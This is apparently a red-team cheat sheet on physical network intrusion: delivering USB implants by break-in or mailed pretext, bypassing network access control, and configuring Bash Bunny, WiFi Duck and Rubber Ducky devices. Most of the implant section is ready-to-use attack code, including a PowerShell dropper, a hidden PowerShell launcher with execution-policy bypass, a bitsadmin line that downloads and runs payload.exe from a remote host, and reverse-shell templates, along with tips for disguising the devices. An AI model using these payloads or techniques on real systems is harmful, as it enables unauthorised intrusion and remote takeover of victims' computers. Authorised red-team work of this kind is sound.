 # __Network access via physical implants__
>Author: Pieter Miske
---
### __Physical Red Teaming and implant usage considerations:__
##### _Methods to deliver an implant:_
- Break in: gain access to a physical location of the target and try to plug\-in the implant\.  
- Mail: use post delivery services to send and deliver malicious hardware \(e\.g\. USB stick\) to the target with a convincing pre\-text to get initial foothold \(e\.g\. information on the USB stick is to confidential to deliver via email or make them feel privileged in some way\)\. The payload can be the usb itself \(e\.g\. rubber ducky\) or malicious file on the drive\.  

##### _NAC bypass for dropbox:_
Network Access Control \(NAC\) acts as a kind of a gatekeeper to the local network infrastructure\. Its usually works with whitelists, blacklists, authentication requirements \(creds/certificates\) or host scanning to restrict access and keep unwanted devices out of the network\. NAC can be applied to both wired and wireless networks\. More info can be found here: [The Hacker Recipes](https://www.thehacker.recipes/physical/networking/network-access-control#theory)\.
- MAC spoofing: You take a VoIP phone or a printer, use their MAC address on your attacking machine and you should be provided with an IP address from the DHCP server\. Why? Because these devices are whitelisted as they do not support 802\.1x authentication\. 
- VLAN hopping: This can be achieved by plugging the laptop into the network port of VoIP phone and using a utility such as voiphopper \(pre installed in Kali Linux\)
- Get credentials that give access to the wireless network \(social engineering, dumping from system that is connected, evil twin attack, etc\.\)


---
### __Physcial implant options:__
##### _Bash Bunny:_
This technique starts a reverse shell back to your C2 server based on an obfuscated payload stored on the bash bunny\. The process takes \+/\- 25 seconds to complete\. Bash bunny switches: Arming Mode \(switch closed to the usb connector\); Payload 1 \(switch closed to the back of the usb stick\); Payload 2 \(switch in the middle\)\.
>It is recommended to change the USB name of the BashBunny to something less suspicious like ‘IRONKEY’ \(don’t forget to rename the names in the scripts aswell\)\. 
- 1\. Create an obfuscated \.exe payload for your C2 server
- 2\. \(optional\) If you want to copy the obfuscated payload to disk and execute it from there instead of directly from the bashbunny, create the following script \(run\.ps1\) and reverence it in the bellow “payload\.txt” file:
    ```PowerShell
    $Drive = (Get-WMIObject Win32_Volume | ? { $_.Label -eq 'IRONKEY' }).name
    $user = $env:UserName
    $Dropper = $Drive + "payloads\switch1\payload.exe"
    $DestinationFile1 = "C:\users\public\documents\payload.exe"
    
    If ((Test-Path $DestinationFile1) -eq $false){
        New-Item -ItemType File -Path $DestinationFile1 -Force
    }
    Copy-Item -Path $Dropper -Destination $DestinationFile1
    Start-Process cmd -ArgumentList "/c C:\users\public\documents\payload.exe"
    ```
    - 3\. Create the bashbunny payload\.txt file and specify if you want to run the payload\.exe or run\.ps1 script: 
    ```
    #Sets attack mode and stores current switch position
    LED SETUP
    ATTACKMODE HID STORAGE
    GET SWITCH_POSITION#Runs Powershell script
    LED ATTACK
    RUN WIN powershell -nop -ep bypass -w Hidden ".((gwmi win32_volume -f 'label=''IRONKEY''').Name+'payloads\\$SWITCH_POSITION\<payload.exe OR run.ps1>')"
    LED FINISH
    ```
- 4\. Switch the bash bunny to Arming Mode and upload ‘payload\.txt’, ‘payload\.exe’ and if required ‘run\.ps1’ to: BashBunny > payloads > switch1
- 5\. Change the bash bunny switch to Payload 1, plug it into the unlocked target system and wait until te led light is green\.

##### _Wifi Duck:_
By emulating a USB keyboard like the rubber ducky, this device can be used to remote control a computer via WiFi, automate tasks or execute software to gain full access\.
>It is recommended to rename the Wifi hotspot name of the WifiDuck in the ‘Settings’ tab \(e\.g\. iPhone of John\)\.
- 1\. Plug the Wifi Duck into a target computer, connect to the Wifi Duck wifi hotspot with the password "wifiduck" and browse to "192\.168\.4\.1" to open the interface
- 2\. Here you can add, save and run ducky scripts \(in rubber ducky format\) remotely on the target system \(encoding of the script to \.bin is done automatically\):
    ```
    LED 0 0 255
    DELAY 1000
    GUI r
    DELAY 1000
    
    STRING cmd
    ENTER
    DELAY 1000
    
    STRING bitsadmin /transfer payload.exe http://10.10.10.10/payload.exe %APPDATA%\payload.exe & %APPDATA%\payload.exe & timeout 20 & exit
    ENTER
    DELAY 1000
    LED 0 153 0
    DELAY 2000
    LED 0 0 0
    ```
- 3\. \(optional\) it is possible to autorun a stored script on the duck during the first connection \(disable it in the "Settings" tab\)\.

##### _Rubber Ducky:_
>More rubber ducky payloads can be found [here](https://github.com/hak5darren/USB-Rubber-Ducky/wiki/Payloads): 
- 1\. Modify one of the following payload templates and compile using this [online encoder](https://ducktoolkit.com/encode): 
    - Windows reverse shell:
        ```
        DELAY 1000
        GUI r
        DELAY 1000
        STRING cmd
        ENTER
        DELAY 1000
        STRING <command string to execute>
        ENTER
        DELAY 5000
        ```
    - Linux reverse shell:
        ```
        DELAY 500
        ALT F2
        DELAY 300
        STRING lxterminal
        DELAY 300
        ENTER
        DELAY 600
        STRING <insert executable payload here>
        DELAY 2000
        ENTER
        ```
- 2: Save the created inject\.bin to USB rubber ducky
- 3: Inject USB rubber ducky into USB port of the target machine

##### _Raspberry Pi dropbox with NAC bypass:_
__Under construction__
